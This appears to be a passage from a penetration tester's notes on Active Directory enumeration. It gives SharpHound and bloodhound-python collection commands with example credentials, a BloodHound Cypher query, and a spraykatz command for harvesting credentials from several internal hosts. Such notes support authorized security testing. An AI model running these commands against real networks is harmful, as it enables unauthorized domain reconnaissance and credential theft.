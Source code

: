 

#### Collectors

##### SharpHound.ps1

```
PS > Invoke-Bloodhound -CollectionMethod All,GPOLocalGroup -Domain megacorp.local -LDAPUser snovvcrash -LDAPPass 'Passw0rd!'
PS > Invoke-Bloodhound -CollectionMethod SessionLoop -Domain megacorp.local
```

##### SharpHound.exe

```
PS > .\SharpHound.exe -c All,GPOLocalGroup -d megacorp.local --ldapusername snovvcrash --ldappassword 'Passw0rd!'
PS > .\SharpHound.exe -c SessionLoop -d megacorp.local
```


#### Cypher

* [https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/](https://hausec.com/2019/09/09/bloodhound-cypher-cheatsheet/)

Show percentage of collected user sessions:

* [https://youtu.be/q86VgM2Tafc](https://youtu.be/q86VgM2Tafc)

```
 # http://localhost:7474/browser/
MATCH (u1:User)
WITH COUNT(u1) AS totalUsers
MATCH (c:Computer)-[r:HasSession]->(u2:User)
WITH totalUsers, COUNT(DISTINCT(u2)) AS usersWithSessions
RETURN totalUsers, usersWithSessions, 100 * usersWithSessions / totalUsers AS percetange
```


#### BloodHound.py

* [https://github.com/fox-it/BloodHound.py](https://github.com/fox-it/BloodHound.py)

```
$ cd ~/ws/enum/bloodhound/bloodhound.py/
$ bloodhound-python -c All,LoggedOn -u snovvcrash -p 'Passw0rd!' -d megacorp.local -ns 127.0.0.1
```



### spraykatz

* [https://github.com/aas-n/spraykatz](https://github.com/aas-n/spraykatz)

```
$ ./spraykatz.py -u snovvcrash -p 'Passw0rd!' -t 10.10.13.37,10.10.13.38,10.10.13.39
```


